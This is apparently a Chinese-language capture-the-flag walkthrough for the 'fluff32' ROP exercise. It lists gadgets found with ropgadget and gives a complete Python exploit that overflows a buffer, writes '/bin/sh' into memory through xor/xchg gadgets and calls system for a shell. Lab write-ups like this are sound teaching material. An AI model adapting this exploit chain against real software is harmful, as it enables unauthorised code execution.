 #### fluff32
这个练习与上面没有太大区别，难点在于我们能找到的 gadgets 不是那么直接，有一个技巧是因为我们的目的是写入字符串，那么必然需要 `mov [reg], reg` 这样的 gadgets，我们就从这里出发，倒推所需的 gadgets。
```
$ ropgadget --binary fluff32 --only "mov|pop|ret|xor|xchg"
...
0x08048693 : mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret
0x080483e1 : pop ebx ; ret
0x08048689 : xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
0x0804867b : xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
0x08048671 : xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret
```
我们看到一个这样的 `mov dword ptr [ecx], edx ;`，可以想到我们将地址放进 `ecx`，将数据放进 `edx`，从而将数据写入到地址中。payload 如下：
```python
from zio import *

system_plt   = 0x08048430
data_addr    = 0x0804a028

pop_ebx      = 0x080483e1
mov_ecx_edx  = 0x08048693
xchg_edx_ecx = 0x08048689
xor_edx_ebx  = 0x0804867b
xor_edx_edx  = 0x08048671

def write_data(data, addr):
    # addr -> ecx
    payload  = l32(xor_edx_edx)
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += l32(addr)
    payload += l32(xor_edx_ebx)
    payload += "BBBB"
    payload += l32(xchg_edx_ecx)
    payload += "BBBB"
    
    # data -> edx
    payload += l32(xor_edx_edx)
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += data
    payload += l32(xor_edx_ebx)
    payload += "BBBB"
    
    # edx -> [ecx]
    payload += l32(mov_ecx_edx)
    payload += "BBBB"
    payload += l32(0)

    return payload

payload  = "A"*44

payload += write_data("/bin", data_addr)
payload += write_data("/sh\x00", data_addr + 4)

payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./fluff32')
io.writeline(payload)
io.interact()
```